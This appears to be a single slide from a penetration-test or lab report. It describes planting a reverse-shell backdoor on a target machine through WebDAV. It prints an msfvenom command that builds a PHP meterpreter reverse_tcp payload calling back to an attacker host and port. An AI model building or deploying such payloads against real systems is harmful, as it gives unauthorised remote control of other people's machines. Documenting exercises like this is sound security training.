

# Exploitation: Reverse Shell Backdoor
01

02

03

Tools & Processes
Created a reverse shell using msfvenom to establish a remote lister and open a backdoor

Achievements
The reverse-shell planted using WebDav gave me remote access to the target machine.

Command
$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php